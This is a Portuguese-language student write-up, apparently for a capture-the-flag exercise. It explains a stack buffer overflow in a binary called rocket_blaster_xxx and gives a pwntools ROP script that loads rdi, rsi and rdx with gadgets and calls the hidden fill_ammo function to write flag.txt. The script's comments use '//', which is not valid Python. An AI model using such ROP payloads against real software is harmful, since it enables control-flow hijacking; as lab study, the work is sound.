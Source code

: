 ### Trabalho3:

	Para fazer o trabalho 3 eu usei o software de engenharia reversa Ghidra. Na função main eu consegui observar que o usuário pedia para ler até 102 bytes, porém o tamanho certo seria somente 40 bytes (4 variaveis locais de 8 bytes e o endereço de retorno de 8 bytes). Pois então, eu poderia sobreescrever o valor de retorno da função, para o programa ir executar outra função, invés de encerrar (como estava).

	Com isso, eu observei que existia uma função chamada "fill_ammo", a qual não era chamada, porém escrevia no meu arquivo "flag.txt". Essa função também tinha 3 parâmetros, os quais encerravam o programa caso não estivessem preenchidos com os valores corretos. Então, através de ROP (Return oriented programming) eu conseguiria sobreescrever o valor de retorno da minha função main e colocar a função que eu quisesse.

	Antes de chamar a minha função fill_ammo, eu preciso carregar nos registradores que guardam os 3 primeiros parâmetros da função os valores certos (rdi, rsi, rdx). Para isso, eu usei um programa em Python que faz a programação voltada a retorno, o qual carrega os primeiros 40 bytes de lixo, os próximos 8 bytes com o valor correto do registrador RDI, os próximos 8 bytes com o valor do registrador RSI, os próximos 8 bytes com o valor do regristrador RDX e, por fim, chamar a função fill_ammo, a qual passará por todos os condicionais dos valores dos parâmetros e chegará na etapa de escrever no arquivo flag.txt.

## Programa em Python usado para fazer ROP:

from pwn import *
context.binary = './rocket_blaster_xxx'
p = process('./rocket_blaster_xxx') //ARQUIVO EXECUTÁVEL

padding = b'A'*40			//COLOCANDO OS PRIMEIROS 40 BYTES COMO LIXO (UM MONTE DE A's).
pop_rdi = p64(0x40159f)		//DANDO POP NO VALOR AONDE O RDI ESTÁ.
pop_rsi = p64(0x40159d)		//DANDO POP NO VALOR AONDE O RSI ESTÁ.
pop_rdx = p64(0x40159b)		//DANDO POP NO VALOR AONDE O RDX ESTÁ.
ret_gadget = p64(0x40101a)	//VALOR USADO PARA ALINHAR A PILHA APÓS CARREGAR OS REGISTRADORES.
fill = p64(0x4012f5)		//VALOR DE RETORNO PARA CHAMAR A FUNÇÃO FILL_AMMO.

payload = padding			//COLOCANDO OS 40 A's
payload += pop_rdi + p64(0xdeadbeef)	//POP NO VALOR DE RDI E COLOCANDO O VALOR NO REGISTRADOR.
payload += pop_rsi + p64(0xdeadbabe)	//POP NO VALOR DE RSI E COLOCANDO O VALOR NO REGISTRADOR.
payload += pop_rdx + p64(0xdead1337)	//POP NO VALOR DE RDX E COLOCANDO O VALOR NO REGISTRADOR.
payload += ret_gadget					//RET PARA ALINHAMENTO DA PILHA.
payload += fill							//CHAMANDO A FUNÇÃO FILL_AMMO

p.send(payload)
p.interactive()


